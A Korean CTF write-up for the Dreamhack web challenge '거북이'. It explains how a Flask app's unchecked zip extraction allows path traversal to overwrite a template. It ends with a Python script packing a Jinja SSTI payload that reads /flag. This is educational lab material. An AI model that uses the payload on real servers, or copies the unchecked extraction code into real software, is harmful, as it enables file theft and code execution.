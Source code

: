 ```yaml
---
layout: single
title: "[Dreamhack] 거북이 write-up"
date: 2025-08-26 20:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] 거북이

### 😁 문제 설명

- 집 앞에서 거북이를 주워 어항에 넣어두었는데, 다음 날 보니 사라졌습니다.
  “어항이 높은데… 대체 어떻게 빠져나간 거지?”

<br>

### ✏️ 풀이

문제에 접속하면 파일 업로드 기능이 존재한다.

![image-20250822161936863](/images/2025-08-21-거북이/image-20250822161936863.png)

<br>

아래 소스 코드를 보면 파일을 업로드할 때 /uploads 경로로 파일이 업로드된다. 파일은 /uploads 경로에 숫자로 업로드되고 zip로 업로드하면 경로가 포함되면 /uploads/~~/test.html 이런식으로 업로드 되는 것 같다.

```python
app = Flask(__name__)
UPLOAD_DIR = Path("./uploads").resolve()
UPLOAD_DIR.mkdir(parents=True, exist_ok=True)
count = 1

@app.route("/", methods=["GET"])
def main():   
    return render_template('upload.html')
    
@app.route("/upload", methods=["POST"])
def upload():
    global count
    if "file" not in request.files:
        return jsonify(ok=False, error="no file"), 400

    f = request.files["file"]
    if f.filename == "":
        return jsonify(ok=False, error="empty filename"), 400

    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
    
    ext = Path(f.filename).suffix.lower()
    file_name = f"{count}{ext}" if ext else f"{count}"
    count += 1
    
    out = UPLOAD_DIR / file_name
    out.parent.mkdir(parents=True, exist_ok=True)
    f.save(out)
    return jsonify(ok=True, saved=str(file_name))    
    
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
    
@app.route("/uploads/<path:filename>")
def serve_uploads(filename):
    return send_from_directory(UPLOAD_DIR, filename, as_attachment=False)
    
app.config.update(PROPAGATE_EXCEPTIONS=False)

@app.errorhandler(Exception)
def _all_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400

@app.errorhandler(HTTPException)
def _http_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400
    
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

<br>

업로드할 때 아래 소스 코드를 보면 zip를 업로드할 때 파일 안의 이름에 대해서 검증을 제대로 하지 않아서 `../` 를 사용할 수 있다는 것을 알 수 있다.

```python
    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
```

<br>

Dockerfile을 봤을때 flag.txt를 /flag에 저장하였고, jinja SSTI로 flag를 읽기 위해서는 render_template 함수를 사용하는 곳이 test.html 밖에 없기 때문에 이를 덮어야 한다.

```python
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
```

<br>

/test.html을 덮어쓰기 위해서 ../로 /uploads 경로를 탈출하고 /templates/test.html 파일을 덮을 수 있다. flag는 /flag에 위치해 있기 때문에 SSTI payload가 포함된 test.html을 zip로 압축해 업로드하면 된다.

```python
import zipfile

payload = "{{ url_for.__globals__['__builtins__']['open']('/flag').read() }}"
target = "../templates/test.html"

with zipfile.ZipFile("exploit.zip", "w", zipfile.ZIP_DEFLATED) as z:
    z.writestr(target, payload)
```

![image-20250826202926292](/images/2025-08-26-거북이/image-20250826202926292.png)
